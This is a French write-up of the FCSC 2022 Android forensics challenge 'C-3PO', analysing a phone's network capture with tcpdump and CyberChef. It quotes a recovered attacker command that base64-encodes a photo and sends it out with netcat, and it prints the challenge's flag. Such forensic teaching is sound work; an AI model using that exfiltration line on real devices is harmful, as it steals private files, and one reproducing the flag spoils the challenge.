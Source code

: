 #android
https://hackropole.fr/fr/challenges/forensics/fcsc2022-forensics-android-c3po/

## Description

Pour votre première analyse, on vous confie le téléphone du PDG de _GoodCorp_. Ce dernier est certain que les précieuses photos stockées sur son téléphone sont récupérées par un acteur malveillant. Vous décidez de mettre en place une capture réseau sur le téléphone, afin de voir ce qu’il en est…

Cette épreuve est composée de trois parties :

- [C-3PO](https://hackropole.fr/fr/challenges/forensics/fcsc2022-forensics-android-c3po/).
- [R2-D2](https://hackropole.fr/fr/challenges/forensics/fcsc2022-forensics-android-r2d2/).
- [R5-D4](https://hackropole.fr/fr/challenges/forensics/fcsc2022-forensics-android-r5d4/).
## Write Up

On faisant un tcpdump -r fichier.cap :
![[Pasted image 20250217141744.png]]

On tombe sur énormément de flux https, on va essayer de les enlever pour voir si on a plus d'informations :
![[Pasted image 20250217141940.png]]

On peut voir beaucoup de communications entre le 10.0.2.16 et le 172.16.0.1, que ça soit sur les ports 1337 et 1338 :
![[Pasted image 20250217142320.png]]
C'est louche car ces ports sont souvent utilisés pour du C2C.

Quand on essaye de lire le contenu du 1337 rien du tout, ça a l'air chiffré.

On va donc essayer de voir si dans le 1338 il n'y a pas d'autres traces :

```sh
tcpdump -r a.cap not \( port 443 or port 1337 \) and src 10.0.2.16 and dst 172.18.0.1
```

On tombe alors sur un gros traffic, sur les premières trames, on retrouve les commandes suivantes :
```sh
cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 1338
```

Sur les trames d'après, on tombe sur un base64, en essayant de le décoder on voit bien que c'est notre image : 
![[Pasted image 20250217145307.png]]

Avec cyberchef, on peut directement faire save to image : 
![[Pasted image 20250217145504.png]]

On tombe ainsi sur cette image :
![[download.png]]

Le flag est donc **FCSC{2d47d546d4f919e2d50621829a8bd696d3cd1938}**.